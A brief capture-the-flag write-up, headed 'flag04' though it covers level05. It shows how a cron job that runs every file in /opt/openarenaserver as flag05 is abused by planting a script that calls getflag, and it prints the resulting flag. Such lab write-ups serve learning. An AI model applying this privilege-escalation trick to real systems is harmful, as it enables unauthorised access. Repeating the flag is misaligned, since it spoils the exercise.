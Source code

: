# flag04

```bash
find / -name *level05*
```

gave me:

```text
/etc/apache2/sites-available/level05.conf
/etc/apache2/sites-enabled/level05.conf
/var/mail/level05
/rofs/etc/apache2/sites-available/level05.conf
/rofs/etc/apache2/sites-enabled/level05.conf
/rofs/var/mail/level05
```

inside /var/mail/level05:

```text
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

inside /usr/sbin/openarenaserver

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

we have created a script.sh how call getflag in the /opt/openarenaserver/ directory

getflag -> "viuaaale9huek52boumoomioc"
